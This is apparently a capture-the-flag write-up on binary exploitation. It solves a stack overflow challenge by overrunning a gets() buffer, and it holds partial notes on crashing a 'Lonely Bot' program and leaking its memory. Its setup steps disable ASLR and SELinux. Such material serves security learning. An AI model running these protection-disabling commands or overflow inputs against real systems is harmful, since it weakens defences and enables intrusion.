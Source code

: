 # Exploitation
Anytime you run across these types of challenges
* Disable Address Space Layout Randomization (ASLR)
* Set ulimit to `unlimited` for core file generation
* Disable SELinux
   ```sh
    sysctl kernel.randomize_va_space=0
    ulimit -S -c unlimited > /dev/null 2>&1
    setenforce 0
   ```

### 75pts: [Stack Overflow]
Authenticate without the password. Cause the program to print 'Success!' without crashing it and without the password. Note the value for 'authenticated' as well.

1. Copy the code into a  file: `exploit-75pts.c`
2. The hint tells us it also wants the value of `authenticated`
3. Edit the program and add a `printf()` statement:
   ```sh
    ...
     if (authenticated) {
         printf("Success!\n");
         printf("%d\n",authenticated);
         return 0;
      }
    ...
   ```
4. Code Review: `strncmp()` - `compares the only first (at most) n bytes of s1 and s2`
5. Code Review: `gets()` - ` gets() will continue to store characters past the end of the buffer`
6. Compile: `gcc -Wall exploit-75pts.c -o exploit-75pts` (note the compiler warning)
6. Entering anything greater than 12 characters as a password (clobbering `\0`), should pass `strncmp()` check:
   ```sh
   ./exploit-75pts
   Enter the password: AAAAAAAAAAAAA
   Success!
   65
   ````

### 175pts: [Lonely Bot]
Lonely Bot just wants to talk. (program output in web console).
* I haven't solved this one yet. The following are just some notes.

1. Crash the program (generate core file): `./lonely_bot < /dev/urandom`
2. Base64 input:
   ```sh
   echo -n 'E' | base64
   RQ==

   base64> RQ==
   Now you're speaking my language!!
   Here's everything I know about that:

   No, I don't think that's right.
   Please, tell me more.
   base64> RQ==0x000000000000000000000000000000000000000000000111
   Now you're speaking my language!!
   Here's everything I know about that:

   The answer is 42.
   Please, tell me more.
   base64> Here's everything I know about that:
   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
   00 00 00 00 00 18 fe 14 32 67 e8 76 90 21 40 00
   00 00 00 00 39 1a 40 00 00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00 01 00 00 00 48 44 b1 26
   fc 7f 00 00 fe 0b 40 00 00 00 00 00 00 00 00 00
   00 00 00 00 06
   Wow! That's very interesting.
   Please, tell me more.
   base64>
   ```
* Find the correct memory address for the flag?
* Notes/Refs: https://bitvijays.github.io/LFC-BinaryExploitation.html

